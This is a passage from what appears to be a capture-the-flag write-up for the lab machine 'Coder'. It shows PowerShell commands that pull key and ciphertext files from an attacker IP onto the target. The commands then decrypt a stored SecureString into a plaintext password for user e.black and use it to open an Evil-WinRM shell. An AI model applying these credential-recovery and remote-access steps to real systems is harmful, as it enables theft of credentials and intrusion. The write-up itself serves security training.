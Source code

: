     +53
    +153
    +196
    +10
    +126
    +108
    +164
    +172
    +142
    +119
    +112
    +20
    +122
    

This diff shows 2 additional files. `Get-ADCS_Report.ps1` loads a key from
`key.key` and uses it to decrypt `enc.txt` into a password for the e.black
user. Then it sends an email using those creds.

`enc.txt` has a base64-encoded string. `key.key` has a series of bytes as
ints.

### Get Password

To get the password, I’ll create copies of `enc.txt` and `key.key` and upload
them to Coder:

    
    
    PS C:\programdata> iwr 10.10.14.6/key.key -outfile key.key
    PS C:\programdata> iwr 10.10.14.6/enc.txt -outfile enc.txt
    

Then in PowerShell I’ll use the commands above to load them into variables and
get the raw password

    
    
    PS C:\programdata> $key = Get-Content ".\key.key"
    PS C:\programdata> $pass = (Get-Content ".\enc.txt" | ConvertTo-SecureString -Key $key)
    PS C:\programdata> $cred = New-Object -TypeName System.Management.Automation.PSCredential ("coder\e.black",$pass)
    PS C:\programdata> $cred.GetNetWorkCredential().Password
    ypOSJXPqlDOxxbQSfEERy300
    

### WinRM

I’ll connect as e.black over WinRM with [Evil-
WinRM](https://github.com/Hackplayers/evil-winrm):

    
    
    oxdf@hacky$ evil-winrm -i coder.htb -u e.black -p ypOSJXPqlDOxxbQSfEERy300
    
    Evil-WinRM shell v3.4
    
    Info: Establishing connection to remote endpoint
    
    *Evil-WinRM* PS C:\Users\e.black\Documents>
    